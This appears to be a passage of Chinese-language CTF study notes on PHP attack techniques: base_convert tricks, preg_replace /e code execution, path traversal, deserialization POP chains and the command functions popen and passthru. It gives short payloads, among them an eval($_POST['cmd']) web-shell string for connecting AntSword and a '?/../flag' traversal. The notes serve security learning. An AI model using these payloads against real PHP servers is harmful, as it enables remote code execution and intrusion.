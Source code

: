 ```
hex2bin=base_convert(37907361743,10,36)

### dechex()函数

dechex()函数将10进制数转换为16进制的数

[十六进制转十进制| 16进制转10进制 | 在线进制转换工具 (sojson.com)](https://www.sojson.com/hexconvert/16to10.html)

## RCE-preg_replace

[php代码审计之preg_replace函数_php preg_replace-CSDN博客](https://blog.csdn.net/giaogiao123/article/details/121217533)

1./e修饰符必不可少
2.你必须让 subject 中有 pattern 的匹配。
3.可能跟php版本有关系,受用条件也只限于5.5到5.6的php版本
4.满足可变变量的条件

payload：

\S*=${cmd}

直接传参\S*=${@eval($_POST['cmd'])} 就可以蚁剑连接了

## 路径遍历

?/../flag = /../flag 这里的问号不会影响



## 反序列化 POP chains

![image-20231110111419036](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20231110111419036.png)

[【精选】php反序列化—POP 链的构造利用_反序列化pop链-CSDN博客](https://blog.csdn.net/cosmoslin/article/details/120297881)

[PHP: popen - Manual](https://www.php.net/manual/zh/function.popen.php)

```
popen(string $command, string $mode): resource|false
```

返回一个和 [fopen()](https://www.php.net/manual/zh/function.fopen.php) 所返回的相同的文件指针，只不过它是单向的（只能用于读或写）并且必须用 [pclose()](https://www.php.net/manual/zh/function.pclose.php) 来关闭。此指针可以用于 [fgets()](https://www.php.net/manual/zh/function.fgets.php)，[fgetss()](https://www.php.net/manual/zh/function.fgetss.php) 和 [fwrite()](https://www.php.net/manual/zh/function.fwrite.php)。 当模式为 'r'，返回的文件指针等于命令的 STDOUT，当模式为 'w'，返回的文件指针等于命令的 STDIN。

```
<?php
$handle = popen("/bin/ls", "r");
?>
```



[PHP执行系统外部命令函数:exec()、passthru()、system()、shell_exec() - gaohj - 博客园 (cnblogs.com)](https://www.cnblogs.com/gaohj/p/3267692.html)

```
function passthru(string $command,int[optional] $return_value)
```

```